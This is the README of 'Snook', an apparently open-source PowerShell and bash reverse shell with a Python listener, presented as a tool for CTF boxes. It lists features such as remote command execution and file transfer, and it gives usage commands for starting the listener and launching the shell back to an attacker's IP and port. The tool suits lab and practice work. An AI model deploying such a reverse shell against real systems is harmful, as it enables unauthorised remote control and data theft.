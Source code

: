# Snook

Enhanced PowerShell/bash reverse shell with python listener. This work was inspired by [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) and [Nishang's PowerShell reverse shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).
This is a cool tool for CTF boxes as the reverse shells are coded in a scripting language that will surely be available on the boxes, therefore they won't be dependency problems.
Feel free to suggest or implement new commands!

## Dependencies

The python listener needs:

- alive-progress
- colorama
- cryptography

They all can be installed with pip.

The Powershell reverse shell has only been tested on PowerShell 5.1.
The bash reverse shell has only been tested on bash 5.0.16

## Features

- Execute commands
- Download a file from the remote host
- Upload a file to the remote host
- Communication encryption (only available with the bash reverse shell at the moment)
- Fully interactive mode (only available with the bash reverse shell at the moment)

## Usage

On your machine, set up the listener:

`python3 snook_listener.py -H <IP> -p <PORT>`

Then run the reverse shell on the remote machine:

`. .\snook.ps1 ; Invoke-Snook <IP> <PORT>` (on Windows)

or

`./snook.sh <IP> <PORT>` (on Linux)

## TODO

- Implement communication encryption for the PS reverse shell
- Implement fully interactive mode for the PS reverse shell
- Add an encrypt command with on/off switch
- Add new cool features
- Check if the Powershell reverse shell is compatible with other PS versions
- Check if the bash reverse shell is compatible with other bash versions

